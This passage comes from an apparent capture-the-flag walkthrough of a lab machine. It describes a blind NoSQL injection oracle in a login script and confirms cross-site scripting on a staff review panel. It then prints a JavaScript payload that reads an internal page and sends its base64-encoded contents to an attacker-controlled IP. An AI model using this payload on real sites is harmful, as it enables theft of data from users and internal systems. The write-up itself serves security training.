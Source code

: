 We might need to use these somehow. Also, the script seems to be vulnerable to blind NoSQL injection based on the error messages it sends. Based on the `auth.php` script, if get a `true` condition, we would get the `Check inbox for 2FA token` message. If not, we would get the `Invalid email or password` error.&#x20;

### XSS + CSRF

When we submit any queries, this is the response that we get:

<figure><img src="../../.gitbook/assets/image (61) (1).png" alt=""><figcaption></figcaption></figure>

If we enter a simple `<script>` tag and view the page, we can confirm that we have XSS.

<figure><img src="../../.gitbook/assets/image (56) (4).png" alt=""><figcaption></figcaption></figure>

This tells me that Javascript is being executed on the page, and we can attempt to steal page contents via CSRF.

I tried using some Javascript to load the `index.php` page from the staffroom repo to exploit it.

```javascript
<script>var url = "http://staff-review-panel.mailroom.htb/index.php";
var attacker = "http://10.10.16.31/out";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);</script>
```

